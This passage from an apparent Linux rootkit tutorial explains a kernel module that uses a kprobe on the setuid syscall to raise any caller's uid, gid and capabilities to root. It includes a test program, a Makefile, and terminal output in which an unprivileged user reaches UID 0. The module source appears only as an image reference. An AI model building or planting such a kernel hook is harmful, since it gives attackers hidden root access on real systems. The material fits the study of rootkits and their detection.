 The code above, initially will register a kprobe to hook the function "__x64_sys_setuid" (the setuid syscall), in the kprobe it registers it with a post handler which will be executed just as the hooked function will be about to return. When the post handler is executed, it'll elevate the callers
privileges by elevating their uid's aswell as their gid's and capabilities.

```[guest@archlinux rk]$ cat main.c```

```c
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

int main() {
    printf("Current UID: %d\n", getuid());

    // set UID to root (0)
    setuid(0);

    printf("UID after setuid: %d\n", getuid());
    return 0;
}
```

And here we have some userland C code to test the setuid hook

```[guest@archlinux rk]$ cat Makefile```

```
obj-m += kp_hook.o

all:
        make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules

clean:
        make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean[guest@archlinux rk]$
```

and now lets run this code

```
[guest@archlinux rk]$ make
[guest@archlinux rk]$ sudo insmod kp_hook.ko

[guest@archlinux rk]$ sudo rmmod kp_hook.ko
[guest@archlinux rk]$ make clean

[guest@archlinux rk]$ sudo dmesg
[ 8068.408831] module loaded
[ 8068.409809] hooked

[guest@archlinux rk]$ ./main
Current UID: 1000
UID after setuid: 0

[guest@archlinux rk]$ sudo dmesg
[ 8068.408831] module loaded
[ 8068.409809] hooked
[ 8354.503130] setuid hook called, elevating privs...
```


Usually, the userland process would not have changed its setuid to 0 since it did not run with high enough privileges, however, our registered kprobes post handler intercepted the execution of the function and elevated the processes privileges.


## 2.3  eBPF

```